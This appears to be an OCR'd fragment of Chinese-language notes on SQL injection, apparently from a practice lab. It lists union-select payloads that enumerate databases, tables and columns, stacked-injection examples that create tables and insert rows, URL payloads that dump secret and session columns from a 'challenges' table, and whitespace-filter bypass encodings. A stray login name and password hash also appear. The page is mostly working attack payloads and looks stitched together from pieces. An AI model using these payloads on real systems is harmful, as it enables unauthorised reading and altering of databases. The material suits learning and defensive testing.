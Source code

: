 ```
id = -1 union select 
```

- `查询整个数据库中所有库和所对应的表信息`

```sql
select table_schema,group_concat(table_name)
from  information_schema.tables
group  by table_schema
```
Your Login name:NpQJ25CiVWtFNtrNlOw4GlTm
Your Password:b7490cbbbd5cfd081d8ec1930914a677




## **注入之堆叠注入**
就是在注入语句中加一个`;`然后再加入任意mysql语句即可。

列-(新建成功表)
：
```
select * from users where id=1;create table test like users;
```

**(查询数据)**
```
select * from users where id=1;select 1,2,3;
```

**[修改数据]**
```
select * from users where id=1;insert into users(id,username,password)
values('100','new','new');
```
```
?id=0" union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='challenges' --+

?id=0" union select 1,group_concat(column_name),3 from information_schema.columns where table_name='la5spfxomc' --+


?id=0" union select 1,group_concat(secret_D2E9),group_concat(sessid) from challenges.la5spfxomc --+
      
```

## 绕过空格(注释符 /**/，%a0)

两个空格代替一个空格，用Tab代替空格，%a0=空格：
```
%20 %09 %0a %0b %0c %0d %a0 %00 /**/  /*!*/
```
  最基本的绕过方法，用注释替换空格：
```
/*  注释 */

```

